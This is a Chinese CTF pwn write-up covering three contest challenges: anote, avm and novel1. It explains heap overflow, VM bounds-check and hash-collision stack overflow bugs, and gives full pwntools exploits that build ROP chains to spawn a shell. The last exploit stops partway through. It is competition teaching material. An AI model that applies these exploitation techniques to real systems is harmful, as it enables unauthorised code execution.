# 第十八届信息安全大赛 && 第二届长城杯 - pwn-先知社区

> **来源**: https://xz.aliyun.com/news/16188  
> **文章ID**: 16188

---

## anote

一个C++堆题目，show的时候会给堆地址



申请堆大小为0x1c



但是这里edit修改的时候却判断大小为40，这里有溢出，并且后面mem\_copy也是用的0x20,然后调用ops



题目自带backdoor，申请两个堆，然后上一个堆溢出覆盖指针函数，让下一个堆调用backdoor就可以



```
import time
from pwn import *
from ctypes import *
from LibcSearcher import *
import myheader
RED = '\033[91m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
BLUE = '\033[94m' 
RESET = '\033[0m' 
u64_Nofix=lambda p:u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\x00'))
u64_fix=lambda p:u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
u64_8bit=lambda p:u64(p.recv(8))
dir  =    lambda s :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
def int_fix(p,count=12):
    p.recvuntil(b'0x')
    return int(p.recv(count),16)
# p = process(["qemu-arm","-g", "2233","../chall"])

FILENAME='../note'
elf=ELF(FILENAME)
libc=elf.libc

debug = 1
context.arch='amd64'

if debug == 0:
    argv=['aa']
    p=process([FILENAME]+argv)
if debug == 1:
    p = remote('39.106.94.180',26684)

if debug ==2:
    gdbscript = '''
        b* 0x403D33
        b* 0x403D98
        b* 0x403E02
        c
    '''
    argv=['a'*21]
    p = gdb.debug([FILENAME]+argv, gdbscript=gdbscript)

def command(option):
    p.recvuntil(b'Choice')
    p.sendline(bytes(str(option),'utf-8'))

def create():
    command(1)

def edit(id,Content):
    command(3)
    p.recvuntil(b'index')
    p.sendline(bytes(str(id),'utf-8'))
    p.recvuntil(b'len')
    p.sendline(bytes(str(40),'utf-8'))
    p.recvuntil(b'content')
    p.sendline(Content)
def show(id):
    command(2)
    p.recvuntil(b'index')
    p.sendline(bytes(str(id),'utf-8'))
    p.recvuntil(b'gift: ')
    return int_fix(p,7)

backdoor=0x80489CE

create()
create()
heap_addr=show(0)
dir("heap_addr")
payload=p32(backdoor)
payload=payload.ljust(0x10+0x4,b'a')
payload+=p32(0x21)+p32(heap_addr+0x8)
edit(0,payload)
# gdb.attach(p,'b* 0x8048D3F')
edit(1,b'a')


p.interactive()

'''
、
'''

```

## avm

一个虚拟机的操作



使用vm\_func来操作vm



都是一些基本的操作



但是这个if判断等于没检查 最大unsigned int8 就是 0xff ,这里可以栈上溢出修改



取栈上数据的时候同样也有溢出



利用mov\_stack 溢出 取出libc地址，然后用基础操作换出rop，然后把rop写入栈上就可以完成劫持

```
import time
from pwn import *
from ctypes import *
from LibcSearcher import *
import myheader
RED = '\033[91m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
BLUE = '\033[94m' 
RESET = '\033[0m' 
u64_Nofix=lambda p:u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\x00'))
u64_fix=lambda p:u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
u64_8bit=lambda p:u64(p.recv(8))
dir  =    lambda s :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
def int_fix(p,count=12):
    p.recvuntil(b'0x')
    return int(p.recv(count),16)
# p = process(["qemu-arm","-g", "2233","../chall"])

FILENAME='../pwn1'
elf=ELF(FILENAME)
libc=elf.libc

debug = 1
context.arch='amd64'

if debug == 0:
    argv=['aa']
    p=process([FILENAME]+argv)
if debug == 1:
    p = remote('123.56.29.99',32777)

if debug ==2:
    gdbscript = '''
        b* 0x403D33
        b* 0x403D98
        b* 0x403E02
        c
    '''
    argv=['a'*21]
    p = gdb.debug([FILENAME]+argv, gdbscript=gdbscript)

class opcodetor:
    def __init__(self) -> None:
        self.opcode=b''
    def vmadd(self,res,a,b):
        # stack[0] = stack[2] + stack[0++5bit]
        argv=(res&0x1f) + ((b&0x1f)<<5) + (a<<0x10)+ (1<<0x1c)
        self.opcode+=p32(argv)
        pass
    def vmsub(self,res,a,b):
        # stack[0] = stack[0++5bit] -stack[2]
        argv=(res&0x1f) + ((a&0x1f)<<5) + (b<<0x10)+ (2<<0x1c)
        self.opcode+=p32(argv)
        pass
    def vmimul(self,res,a,b):
        # stack[0] = stack[0++5bit] * stack[2]
        argv=(res&0x1f) + ((a&0x1f)<<5) + (b<<0x10)+ (3<<0x1c)
        self.opcode+=p32(argv)
        pass
    def vmdev(self,res,a,b):
        # stack[0] = stack[0++5bit] / stack[2]
        argv=(res&0x1f) + ((a&0x1f)<<5) + (b<<0x10)+ (4<<0x1c)
        self.opcode+=p32(argv)
        pass
    def vmxor(self,res,a,b):
        # stack[0] = stack[0++5bit] ^ stack[2]
        argv=(res&0x1f) + ((a&0x1f)<<5) + (b<<0x10)+ (5<<0x1c)
        self.opcode+=p32(argv)
        pass
    def vmand(self,res,a,b):
        # stack[0] = stack[0++5bit] & stack[2]
        argv=(res&0x1f) + ((a&0x1f)<<5) + (b<<0x10)+ (6<<0x1c)
        self.opcode+=p32(argv)
        pass
    def vmshl(self,res,a,b):
        # stack[0] = stack[0++5bit] << stack[2]
        argv=(res&0x1f) + ((a&0x1f)<<5) + (b<<0x10)+ (7<<0x1c)
        self.opcode+=p32(argv)
        pass  
    def vmshr(self,res,a,b):
        # stack[0] = stack[0++5bit] >> stack[2]
        argv=(res&0x1f) + ((a&0x1f)<<5) + (b<<0x10)+ (8<<0x1c)
        self.opcode+=p32(argv)
        pass 
    def vm_mov_mem(self,data_index,stack_offset,real_of):
        # real_mem[0] = 
        argv=(data_index&0x1f) + ((stack_offset&0x1f)<<5) + (real_of<<0x10)+ (9<<0x1c)
        self.opcode+=p32(argv)
        pass 
    def vm_mov_stack(self,stack_index,stack_offset,real_of):
        # real_mem[0] = 
        argv=(stack_index&0x1f) + ((stack_offset&0x1f)<<5) + (real_of<<0x10)+ (10<<0x1c)
        self.opcode+=p32(argv)
        pass 
    def send(self):
        p.send(self.opcode)        

# gdb.attach(p,'b* $rebase(0x1895)\n')
op = opcodetor()
op.vm_mov_stack(1,0,0xd38)
op.vm_mov_stack(2,0,0x3a8)#str_bin_sh
op.vm_mov_stack(3,0,0x3a8+8)#rdi_ret
op.vm_mov_stack(4,0,0x3a8+0x10)#system_addr
op.vm_mov_stack(5,0,0x3a8+0x18)#base_offset
op.vm_mov_stack(11,0,0x3a8+0x18+0x8)# num_1
op.vmsub(6,1,5)#base
op.vmadd(7,6,3)#rdi_ret
op.vmadd(8,7,11)#ret
op.vmadd(9,6,2)#str_bin_sh
op.vmadd(10,6,4)#system_addr

op.vm_mov_mem(8,0,0xd38)
op.vm_mov_mem(7,0,0xd38+8)
op.vm_mov_mem(9,0,0xd38+8*2)
op.vm_mov_mem(10,0,0xd38+8*3)

str_bin_sh=0x00000000001d8678
rdi_ret=0x000000000002a3e5
system_addr=0x50d70
base_offset=0x29d90

op.opcode=op.opcode.ljust(0x280,b'\x00')
op.opcode+=p64(0xdeadbeef)# 0x3a0
op.opcode+=p64(str_bin_sh)
op.opcode+=p64(rdi_ret)
op.opcode+=p64(system_addr)
op.opcode+=p64(base_offset)
op.opcode+=p64(1)
op.send()


p.interactive()

'''
choice 4 half high 
control 
    low5 &0x1f
    ++5 >>5 &0x1f

padding 0


'''

```

## novel1

这题还是很ok的，就两个功能



part1主要就是增加`unordered_map`,unordered\_map底层用的是hash，那么在添加的时候hash就会冲突



在part2的时候，功能就是找到相同的键然后复制到栈上，然后输出之后退出



这个copy就会有问题了，当hash冲突的时候就会复制多个键值对进去，这个键值对的大小为0x1f



这里的v2距离rbp只有0x140大小，这就有溢出，并且程序pie和canary都没开



copy前的大小返回0x18,这里通过hash冲突来完成扩大大小



然后再`copy`的时候就会复制多个进去这个时候就会有溢出



这题如果没有作者给出rop那是相当难以利用的，还好可以控制了rsp，在第一步输入作者的时候我们提前布置rop泄露libc地址


因为栈已经迁移到bss上了，又不知道栈地址很难重开然后构造，直接调用prologue函数在现在的栈上直接输入数据就可以完成输入libc地址



跑hash冲突的脚本



，脚本写的还是有问题，不能直接跑出20几个，需要跑两次然后拼接一下

```
import time
from pwn import *
from ctypes import *
from LibcSearcher import *
import myheader
RED = '\033[91m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
BLUE = '\033[94m' 
RESET = '\033[0m' 
u64_Nofix=lambda p:u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\x00'))
u64_fix=lambda p:u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
u64_8bit=lambda p:u64(p.recv(8))
dir  =    lambda s :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
def int_fix(p,count=12):
    p.recvuntil(b'0x')
    return int(p.recv(count),16)
# p = process(["qemu-arm","-g", "2233","../chall"])

FILENAME='../novel1'
elf=ELF(FILENAME)
libc=elf.libc

debug = 3
context.arch='amd64'

if debug == 0:
    argv=['aa']
    p=process([FILENAME]+argv)
if debug == 1:
    p = remote('123.56.29.99',32777)

if debug ==2:
    gdbscript = '''
        b* 0x402BD6
        c
    '''
    argv=['a'*21]
    p = gdb.debug([FILENAME]+argv, gdbscript=gdbscript)

def part1(Blood,Evidence):
    p.recvuntil(b'Chapter')
    p.sendline(bytes(str(1),'utf-8'))
    p.recvuntil(b'Blood')
    p.sendline(bytes(str(Blood),'utf-8'))
    p.recvuntil(b'Evidence')
    p.sendline(bytes(str(Evidence),'utf-8'))
def part2(Blood):
    p.recvuntil(b'Chapter')
    p.sendline(bytes(str(2),'utf-8'))
    p.recvuntil(b'Blood')
    p.sendline(bytes(str(Blood),'utf-8'))

puts_plt=0x000000000402460
puts_got=0x40A108
bss=0x40A540
num_list=[100]
stop_top=23
context.log_level='CRITICAL'
fix_num=0x000000000402460
change_fix=0
i=0


while True:

    i+=1
    try:
        if i in num_list:
            continue
        p=process([FILENAME])
        p.recvuntil(b'Author')
        p.sendline(b'mowen')

        for t in num_list:
            part1(t,0xffffff0000)
        part1(i,0xffffff0000)
        for i in range( 0x1f -1 - len(num_list)):
            part1(fix_num+i,0xffffff0000)
        part2(num_list[0])
        p.recvuntil(b'follows')
        p.recvline()
        recvs=p.recvuntil(b'There is nothing new',timeout=1)
        recvs=recvs.split(b'\n')
        # print(recvs)
        count_num=int(recvs[0])
        if(count_num!=2 and count_num not in num_list):

            num_list.append(count_num)
            print(num_list)
            print(f"append:{count_num} length:{len(num_list)}")
            # break
        while True:

            fix_num=random.randint(0,0x50000)
            if fix_num not in num_list:break
        # flags=int(p.recvline()[:-1])      

        p.close()
    except Exception as ex:
        print(f'error  {ex}')
        p.close()
        break


# p.interactive()

'''
[100, 19924, 320824, 60398, 92612, 221291, 164120, 142408, 233268, 210081, 187012, 287902, 296870, 247782, 1988, 113675, 121581]
[100, 130372, 27358, 192735, 189844, 152202, 230082, 172262, 318582, 319880, 230790, 149370, 184593, 220111, 322771, 187838, 217515]
[4236608, 135223, 288210, 205138, 290570, 28433, 260539, 145371, 287620, 90029, 201775, 95044, 15925, 179709, 42239, 83480, 218944]
[4236608, 138409, 29790, 127258, 153159, 88495, 185019, 191686, 128143, 216702, 152451]


'''

```

exp

```
import time
from pwn import *
from ctypes import *
from LibcSearcher import *
import myheader
RED = '\033[91m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
BLUE = '\033[94m' 
RESET = '\033[0m' 
u64_Nofix=lambda p:u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\x00'))
u64_fix=lambda p:u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
u64_8bit=lambda p:u64(p.recv(8))
dir  =    lambda s :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
def int_fix(p,count=12):
    p.recvuntil(b'0x')
    return int(p.recv(count),16)
# p = process(["qemu-arm","-g", "2233","../chall"])

FILENAME='../novel1'
elf=ELF(FILENAME)
libc=elf.libc

debug = 1
context.arch='amd64'

if debug == 0:
    argv=['aa']
    p=process([FILENAME]+argv)
if debug == 1:
    p = remote('60.205.189.238',28678)

if debug ==2:
    gdbscript = '''
        b* 0x402BD6
        c
    '''
    argv=['a'*21]
    p = gdb.debug([FILENAME]+argv, gdbscript=gdbscript)

def part1(Blood,Evidence):
    p.recvuntil(b'Chapter')
    p.sendline(bytes(str(1),'utf-8'))
    p.recvuntil(b'Blood')
    p.sendline(bytes(str(Blood),'utf-8'))
    p.recvuntil(b'Evidence')
    p.sendline(bytes(str(Evidence),'utf-8'))
def part2(Blood):
    p.recvuntil(b'Chapter')
    p.sendline(bytes(str(2),'utf-8'))
    p.recvuntil(b'Blood')
    p.sendline(bytes(str(Blood),'utf-8'))

puts_plt=0x000000000402460
puts_got=0x40A108
rdi_rbp_ret=0x00000000004025c0

p.recvuntil(b'Author')
payload=b'a'*(0x50)
payload+=p64(puts_got)*2+p64(puts_plt)
payload+=p64(0x4027A3)
p.sendline(payload)


#22
num_list=[100, 19924, 320824, 60398, 92612, 
221291, 164120, 142408, 233268, 210081, 187012, 
287902, 296870, 247782, 1988, 113675, 121581,
130372, 27358, 192735, 189844, 152202, 230082, 172262
]


stop_top=23
pop_rsp=0x4025BF
bss=0x40A540+0x50

print(f"num_list len -> {len(num_list)}")
# gdb.attach(p,'b* 0x402bd6\nb *0x402B84\nb* 0x402CD0\nb* 0x402855')
for i in range(len(num_list)):
    if(num_list[i]==0x2528a):
        part1(num_list[i],bss)
        continue
    if(i<0x10):part1(num_list[i],0x10+i)
    else: part1(num_list[i],0x4025BE)
for i in range( 0x1f -1 - len(num_list)):
    part1(432431+i*0x1231,0xffffff0000)
part2(num_list[0])

p.recvuntil(b'follows')
p.recvline()
recvs=p.recvuntil(b'There is nothing new',timeout=1)
recvs=recvs.split(b'\n')
print(recvs)
